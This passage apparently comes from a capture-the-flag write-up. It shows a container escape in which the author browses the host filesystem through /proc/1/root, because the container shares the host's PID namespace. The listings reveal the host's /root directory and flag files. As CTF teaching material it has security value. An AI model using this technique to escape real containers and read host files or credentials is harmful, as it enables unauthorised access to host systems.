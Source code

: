 Something I happen to know, mostly because of a lot of Kubernetes work I've done, but also because google tells me so: The /proc folder might still be useful for an escape just like our last exercise. You see, because I can see all these PIDs, and I know that there isn't any systemd init happening in my container, I can assume that this container is currently looking at all the host PIDs. Which means /proc has all the host PIDs. Which means every /proc/*/root from the host is browsable by me, as it's an overlay link to what the PROCESS can see, not what I can see.

So like any good container, let's go look at PID 1 to see how it's looking today.
```bash
/ # cd /proc/1/root/
(unreachable)/ # /etc/file/busybox ls -alhn
total 80
drwxr-xr-x   19 0        0           4.0K Dec 13 04:15 .
drwxr-xr-x   19 0        0           4.0K Dec 13 04:15 ..
lrwxrwxrwx    1 0        0              7 Oct 26  2020 bin -> usr/bin
drwxr-xr-x    3 0        0           4.0K Oct 28 08:37 boot
drwxr-xr-x   15 0        0           3.2K Dec 13 04:15 dev
drwxr-xr-x  155 0        0          12.0K Dec 13 04:15 etc
drwxr-xr-x    3 0        0           4.0K Feb 27  2022 home
lrwxrwxrwx    1 0        0              7 Oct 26  2020 lib -> usr/lib
lrwxrwxrwx    1 0        0              9 Oct 26  2020 lib32 -> usr/lib32
lrwxrwxrwx    1 0        0              9 Oct 26  2020 lib64 -> usr/lib64
lrwxrwxrwx    1 0        0             10 Oct 26  2020 libx32 -> usr/libx32
drwx------    2 0        0          16.0K Oct 26  2020 lost+found
drwxr-xr-x    2 0        0           4.0K Oct 26  2020 media
drwxr-xr-x    2 0        0           4.0K Oct 26  2020 mnt
drwxr-xr-x    3 0        0           4.0K Oct 27 09:03 opt
dr-xr-xr-x  248 0        0              0 Dec 13 04:14 proc
drwx------    7 0        0           4.0K Dec  5 12:02 root
drwxr-xr-x   39 0        0           1.1K Dec 13 04:16 run
lrwxrwxrwx    1 0        0              8 Oct 26  2020 sbin -> usr/sbin
drwxr-xr-x    8 0        0           4.0K Feb 27  2022 snap
drwxr-xr-x    2 0        0           4.0K Oct 26  2020 srv
dr-xr-xr-x   13 0        0              0 Dec 13 04:14 sys
drwxrwxrwt   14 0        0           4.0K Dec 13 04:21 tmp
drwxr-xr-x   14 0        0           4.0K Oct 26  2020 usr
drwxr-xr-x   14 0        0           4.0K Feb 27  2022 var
```
Well this doesn't look like my other root directory..

```bash
(unreachable)/ # /etc/file/busybox ls -alhn /root
total 24
drwx------    1 0        0           4.0K Dec 13 04:50 .
drwxr-xr-x    1 0        0           4.0K Dec 13 04:16 ..
-rw-------    1 0        0            184 Dec 13 04:57 .ash_history
-rw-r--r--    1 0        0           3.0K Oct 15  2021 .bashrc
-rw-r--r--    1 0        0            161 Jul  9  2019 .profile
-rw-------    1 0        0             40 Nov  5 19:09 flag-3-of-4.txt
(unreachable)/ # /etc/file/busybox ls -alhn root/
total 48
drwx------    7 0        0           4.0K Dec  5 12:02 .
drwxr-xr-x   19 0        0           4.0K Dec 13 04:15 ..
lrwxrwxrwx    1 0        0              9 Feb 27  2022 .bash_history -> /dev/null
-rw-r--r--    1 0        0           3.0K Dec  5  2019 .bashrc
drwxr-xr-x    3 0        0           4.0K Feb 27  2022 .cache
drwxr-xr-x    3 0        0           4.0K Feb 27  2022 .local
-rw-r--r--    1 0        0            161 Dec  5  2019 .profile
-rw-r--r--    1 0        0             66 Feb 27  2022 .selected_editor
drwx------    2 0        0           4.0K Feb 27  2022 .ssh
-rw-------    1 0        0              0 Dec  5 12:02 .viminfo
drwxr-xr-x    2 0        0           4.0K Feb 27  2022 .vnc
-rw-r--r--    1 0        0             51 Nov  5 19:09 flag-4-of-4.txt
drwxr-xr-x    4 0        0           4.0K Feb 27  2022 snap
-rw-r--r--    1 0        0             67 Dec  5 12:02 yetikey3.txt
```